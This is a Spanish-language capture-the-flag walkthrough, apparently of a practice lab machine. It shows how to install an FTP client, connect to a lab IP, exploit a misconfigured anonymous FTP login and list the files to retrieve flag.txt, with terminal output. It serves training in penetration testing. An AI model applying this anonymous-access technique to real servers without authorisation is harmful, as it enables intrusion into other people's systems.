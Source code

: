## Foothold

Para acceder al servicio FTP, se utiliza el comando `ftp` en nuestro host, si la herramienta no se encuentra instalada lo realizamos con el siguiente comando: `sudo apt install ftp -y`, la instancia -y se usa para aceptar la instalación sin interrumpir el proceso, una vez finalizada la instalación se puede ejecutar el comando `ftp -h` para ver las capacidades del servicio.

```
┌─[fabro@parrot]─[~]
└──╼ $sudo apt install ftp -y 
Leyendo lista de paquetes... Hecho
Creando árbol de dependencias... Hecho
Leyendo la información de estado... Hecho
ftp ya está en su versión más reciente (0.17-34.1.1).
```

Para acceder al host de destino usamos el comando `ftp {target_IP}`, este comando iniciará una solicitud de autenticación en el servicio FTP que se encuentra ejecutando

```
┌─[fabro@parrot]─[~]
└──╼ $ftp 10.129.94.137
Connected to 10.129.94.137.
220 (vsFTPd 3.0.3)
```

El prompt nos pedirá el nombre de usuario con el que queremos iniciar sesión. Aqui es donde ocurre la magia.

Una mala configuración típica para la ejecucción de los servicios de FTP es permitir que una cuenta anónima acceda al servicio como cualquier usuario autenticado.
- El usuario anonymous se puede ingresar cuando aparece el mensaje, seguido de cualquier contraseña, debido que el servicio ignorará la contraseña de esta cuenta.

```
Name (10.129.94.137:fabro): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Podemos ver que iniciamos sesión correctamente, nuestro prompt cambia para indicarnos que ahora podemos emitir comandos ftp, si escribimos el comando `help, -h o --help` generará una lista de todos los comandos disponible, por el momento nos interesa listar el contenido de la máquina y descargar los archivos que está contenga.

Con el comando `ls` podemos listar el contenido de la carpeta.

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```
Para descargar los archivos a nuestro host utilizamos el comando `get` seguido del nombre del archivo, esto descargará el archivo en el directorio que nos encontremos dentro de nuestro host, por ahora nos interesa el archivo `flag.txt`

